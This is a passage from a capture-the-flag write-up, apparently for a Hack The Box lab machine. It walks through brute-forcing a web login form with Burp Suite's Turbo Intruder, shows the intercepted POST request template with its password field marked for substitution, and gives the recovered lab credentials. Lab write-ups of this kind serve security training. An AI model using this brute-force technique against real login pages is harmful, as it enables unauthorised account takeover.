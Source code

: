 Onto bruteforcing. I'll be using `Turbo intruder`, which is a `burpsuite` extension. You'll firstneed to install it, then intercept a login req. From there just highlight the word you want to be bruteforced, and send it to `Turbo intruder`; you'll want to change the wordlist to the custom one we made. Here's what my burp req looks like:
```
POST /? HTTP/1.1
Host: monitor.bart.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://monitor.bart.htb/?
Content-Type: application/x-www-form-urlencoded
Content-Length: 134
Cookie: PHPSESSID=69jffkgi485eu1ri1hre9r57hp
Connection: close
Upgrade-Insecure-Requests: 1

csrf=f0ccb0aeafef5c845b5db7e1c2dd89bcfd4098f50e629ee27fa1cff8cd5fddf5&user_name=harvey&user_password=%s&action=login&user_rememberme=1
```

When you click send to `Turbo intruder` you should see something similar the the below image, but with the wordlist being different, so just make sure to change it to the one we made:
![Image](/assets/bart/011.png)

After around ~ 1 minute you should get a hit.. The creds to login are `harvey:potter`:
![Image](/assets/bart/012.png)
